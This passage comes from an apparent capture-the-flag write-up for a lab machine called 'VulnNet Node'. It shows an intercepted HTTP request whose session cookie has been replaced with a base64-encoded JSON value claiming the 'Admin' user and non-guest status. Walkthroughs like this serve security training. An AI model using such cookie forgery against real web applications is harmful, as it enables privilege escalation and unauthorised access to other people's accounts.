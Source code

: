Turn `Intercept` on and refresh the page → Modify the Cookie

```
GET / HTTP/1.1
Host: 10.10.116.34:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.116.34:8080/login
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNHdWVzdCI6ZmFsc2UsImVuY29kaW5nIjogInV0Zi04In0%3d
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
```

Render the page from the browser

![Untitled](VulnNet_Node_images/Untitled%206.png)
